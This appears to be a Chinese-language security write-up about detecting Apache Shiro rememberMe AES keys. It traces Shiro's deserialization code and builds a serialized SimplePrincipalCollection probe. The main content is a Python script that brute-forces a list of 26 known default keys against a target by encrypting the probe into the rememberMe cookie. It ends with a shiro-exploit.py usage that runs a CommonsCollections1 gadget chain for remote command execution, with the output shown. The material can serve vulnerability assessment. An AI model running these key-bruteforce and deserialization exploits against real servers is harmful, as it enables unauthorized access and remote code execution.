

# Shiro快速检测Key方法

判断 shiro 的 key ，早期的POC检测采用 URLDNS 进行 dnslog 查询。没有 dnslog 的情况下，考虑直接用CC盲打会有延迟。甚至出现目标主机无法出网的情况

对Apache Shiro指纹检测通常是在 request 的 cookie 中写入 rememberMe=xxx ，再查看 response 的 set-cookie 是否出现 rememberMe=deleteMe 。

针对这个 rememberMe=deleteMe 进行思考，如果Key是正确的，返回的内容应该是如下信息：


  `'Set-Cookie':  'JSESSIONID=57f62121-faa3-44b3-bc3e-fd1a39cdc94f; Path=/; HttpOnly'`  


对RemeberMe处理的核心代码位于 **AbstractRememberMeManager#getRememberedPrincipals**

```
public PrincipalCollection getRememberedPrincipals(SubjectContext subjectContext) {
        PrincipalCollection principals = null;

try {
            byte[] bytes = this.getRememberedSerializedIdentity(subjectContext);
if (bytes != null && bytes.length > 0) {
                principals = this.convertBytesToPrincipals(bytes, subjectContext);
            }
        } catch (RuntimeException var4) {
            principals = this.onRememberedPrincipalFailure(var4, subjectContext);
        }

return principals;
    }
```

进入**AbstractRememberMeManager#convertBytesToPrincipals** 方法当中，当前的Key正确的。所以经过 decrypt 处理之后返回 bytes 数组，进入 deserialize 方法进行反序列化处理。

```
protected PrincipalCollection convertBytesToPrincipals(byte[] bytes, SubjectContext subjectContext) {
if (this.getCipherService() != null) {
            bytes = this.decrypt(bytes);
        }

return this.deserialize(bytes);
    }
```

跟进 deserialize 方法

```
protected PrincipalCollection deserialize(byte[] serializedIdentity) {

	return (PrincipalCollection)this.getSerializer().deserialize(serializedIdentity);
    
}
```

如果反序列化执行链未继承 PrincipalCollection，类型转换会发生报错


**构造POC**

实现通过Key进行检测漏洞需要满足两点：

1. 构造一个继承 PrincipalCollection 的序列化对象。
2. key正确情况下不返回 deleteMe ，key错误情况下返回 deleteMe 。

基于这两个条件下 SimplePrincipalCollection 这个类自然就出现了，这个类可被序列化，继承了 PrincipalCollection 。

 

生成序列化代码如下：

```
 SimplePrincipalCollection simplePrincipalCollection = new SimplePrincipalCollection();
 ObjectOutputStream obj = new ObjectOutputStream(new FileOutputStream("payload"));
 obj.writeObject(simplePrincipalCollection);
 obj.close();
```

生成的16进制字符串如下：

```
aced0005737200326f72672e6170616368652e736869726f2e7375626a6563742e53696d706c655072696e636970616c436f6c6c656374696f6ea87f5825c6a3084a0300014c000f7265616c6d5072696e636970616c7374000f4c6a6176612f7574696c2f4d61703b78707077010078
```

关键POC代码如下：

```
import base64
import binascii
import uuid
from dataclasses import dataclass
from urllib.parse import ParseResult

import requests
from Crypto.Cipher import AES

省略部分….

target = "http://"+target + ":" + str(port)

    yso_payload = '''aced0005737200326f72672e6170616368652e736869726f2e7375626a6563742e53696d706c655072696e636970616c436f6c6c656374696f6ea87f5825c6a3084a0300014c000f7265616c6d5072696e636970616c7374000f4c6a6176612f7574696c2f4d61703b78707077010078'''

    payload = binascii.a2b_hex(yso_payload)

    # AES Encrypte and base64 encode
    BLOCK_SIZE = AES.block_size
    PAD_FUNC = lambda s: s + ((BLOCK_SIZE - len(s) % BLOCK_SIZE) * chr(BLOCK_SIZE - len(s) % BLOCK_SIZE)).encode()
    SHIRO_KEYS =["kPH+bIxk5D2deZiIxcaaaA==","2AvVhdsgUs0FSA3SDFAdag==","3AvVhmFLUs0KTA3Kprsdag==","4AvVhmFLUs0KTA3Kprsdag==","5aaC5qKm5oqA5pyvAAAAAA==","6ZmI6I2j5Y+R5aSn5ZOlAA==","bWljcm9zAAAAAAAAAAAAAA==","wGiHplamyXlVB11UXWol8g==","Z3VucwAAAAAAAAAAAAAAAA==","MTIzNDU2Nzg5MGFiY2RlZg==","U3ByaW5nQmxhZGUAAAAAAA==","5AvVhmFLUs0KTA3Kprsdag==","fCq+/xW488hMTCD+cmJ3aQ==","1QWLxg+NYmxraMoxAXu/Iw==","ZUdsaGJuSmxibVI2ZHc9PQ==","L7RioUULEFhRyxM7a2R/Yg==","r0e3c16IdVkouZgk1TKVMg==","bWluZS1hc3NldC1rZXk6QQ==","a2VlcE9uR29pbmdBbmRGaQ==","WcfHGU25gNnTxTlmJMeSpw==","ZAvph3dsQs0FSL3SDFAdag==","tiVV6g3uZBGfgshesAQbjA==","cmVtZW1iZXJNZQAAAAAAAA==","ZnJlc2h6Y24xMjM0NTY3OA==","RVZBTk5JR0hUTFlfV0FPVQ==","WkhBTkdYSUFPSEVJX0NBVA=="]
    AES_MODE = AES.MODE_CBC
    AES_IV = uuid.uuid4().bytes
    for SHIRO_KEY in SHIRO_KEYS:
        encryptor = AES.new(base64.b64decode(SHIRO_KEY), AES_MODE, AES_IV)
        file_body = PAD_FUNC(payload)
        base64_ciphertext = base64.b64encode(AES_IV + encryptor.encrypt(file_body))
        response = requests.get(target, proxies=proxies, timeout=9, cookies={"rememberMe": base64_ciphertext.decode()})
        print(response.headers)
        if "\'Set-Cookie\': \'JSESSIONID=" in str(response.headers):
            warning_info = "{} Apache Shiro 1.2.4 反序列化漏洞 Key is: {} \r\n ".format(
                target,SHIRO_KEY)
            print(warning)
            return


```

检测效果




但是新版本Shiro(>=1.4.2)采用了AES-GCM加密方式，对Key的检测需要使用新的加密方式。修改AES_MODE 修改为 AES.MODE_GCM

 

在对高版本的Shiro 进Key爆破，如需配合ysoerial使用请在脚本中更改yso_path的路径指向本机对应的ysoserial.jar

https://github.com/Ares-X/shiro-exploit

```
╰─➤ python3 shiro-exploit.py echo -g CommonsCollections1 -u http://127.0.0.1 -v 2 -k zSyK5Kp6PZAAjlT+eeNMlg== -c ifconfig
Congratulation: exploit success
lo0: flags=8049<UP,LOOPBACK,RUNNING,MULTICAST> mtu 16384
	options=1203<RXCSUM,TXCSUM,TXSTATUS,SW_TIMESTAMP>
	inet 127.0.0.1 netmask 0xff000000
	inet6 ::1 prefixlen 128
	inet6 fe80::1%lo0 prefixlen 64 scopeid 0x1
	nd6 options=201<PERFORMNUD,DAD>
gif0: flags=8010<POINTOPOINT,MULTICAST> mtu 1280
stf0: flags=0<> mtu 1280
ap1: flags=8802<BROADCAST,SIMPLEX,MULTICAST> mtu 1500
	options=400<CHANNEL_IO>
	ether 3a:81:7f:08:7b:ce
	media: autoselect
	status: inactive

```

出现Congratulation说明存在漏洞，无法获取命令执行结果可能因为命令有误,请更换命令或复制到burp手动利用查看回显